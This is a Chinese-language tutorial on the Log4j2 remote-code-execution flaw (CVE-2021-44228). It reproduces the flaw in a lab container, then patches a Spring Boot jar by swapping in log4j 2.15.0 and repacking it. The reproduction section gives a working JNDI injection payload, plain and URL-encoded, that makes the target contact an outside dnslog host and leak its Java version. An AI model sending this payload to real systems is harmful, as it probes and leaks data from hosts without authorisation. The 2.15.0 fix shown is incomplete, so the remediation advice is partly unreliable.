


# Apache Log4j2-RCE漏洞修复步骤（CVE-2021-44228）

`@Time   : 2022/8/24 13:41`
`@Author : 852782749@qq.com`

```
开始编辑～
```
## 文章共分为漏洞复现、漏洞修复

### 漏洞复现
#### 部署log4j2环境，复现漏洞
```angular2html
这里使用vulfocus的log4j2 rce的docker环境中用到的环境包
java -jar c:\Apache_Log4j2\log4j2.jar --server.port=8081

可以自行下载或匹配自己对应业务系统的log4j*.jar包
```
> 启动后访问目标地址


>打开`dnslog.cn`,开始监听

#### 构造payload
> 构造payload `${jndi:ldap://${sys:java.version}.d82hcy.dnslog.cn}`;
>
> 将payload 进行url编码 `%24%7Bjndi%3Aldap%3A%2F%2F%24%7Bsys%3Ajava.version%7D.d82hcy.dnslog.cn%7D`

#### 攻击复现
> 使用浏览器发起访问`host+prot/hello?payload=%24%7Bjndi%3Aldap%3A%2F%2F%24%7Bsys%3Ajava.version%7D.d82hcy.dnslog.cn%7D`
> 
> 启动引擎日志记录了对dnslog发起的访问

>
> 
> 切换到dnslog页面进行查看，部分需要单击`Refresh Record`获取下请求信息
> 
> 如果能够检测到与下面类似的信息，说明复现成功。

> 

### 漏洞修复
#### 下载不受影响的log4j版本`https://archive.apache.org/dist/logging/log4j/2.15.0/apache-log4j-2.15.0-bin.zip`

#### jar命令
```angular2html
Soring boot 项目jar包解压之后 修改文件之后 在不依靠开发工具的情况下重新压缩jar包 打包命令如下：
jar -cvf0M log4jup.jar BOOT-INF/ META-INF/ org/
压缩
jar -cvf xxx.jar
解压
jar -xvf xxx.jar
更新
jar -uvf xxx.jar BOOT-INF/classes/application-dev.yml
列出jar包内容
jar -tvf xxx.jar
```
#### 使用jar解压命令，将log4.jar解压


#### 漏洞修复步骤
> 查询引用了哪些`log4j*.jar`，在路径`\BOOT-INF\lib\`下找到两个log4j的包

> 使用新版的jar包将其替换

> 替换成新版本之后，找到引用的`pom.xml`文件，在路径`\META-INF\maven\com.example\log4j2_rce\`下，

> 将log4j的version修改为新的版本号，如这里是2.15.0

```angular2html
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.15.0</version>
</dependency>
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.15.0</version>
</dependency>
```
> 使用`jar -cvf0M log4jup.jar BOOT-INF/ META-INF/ org/`命令重新压缩成新的jar包，如log4jup.jar


> 此时已完成修复，可以再次重复漏洞复现步骤进行验证，dnslog已经获取不到信息

> 
## 思考

> 乾坤未定，你我皆是黑马